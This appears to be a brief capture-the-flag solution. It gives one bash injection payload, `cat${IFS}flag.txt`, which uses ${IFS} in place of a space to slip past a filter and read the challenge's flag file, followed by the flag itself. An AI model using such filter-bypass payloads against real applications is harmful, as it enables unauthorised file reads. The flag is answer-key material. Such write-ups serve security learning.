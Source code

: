 # SOLUTION
```bash
cat${IFS}flag.txt
```

# FLAG
`flag{did_you_use_ifs_or_python_let_me_know_down_in_the_comments}`
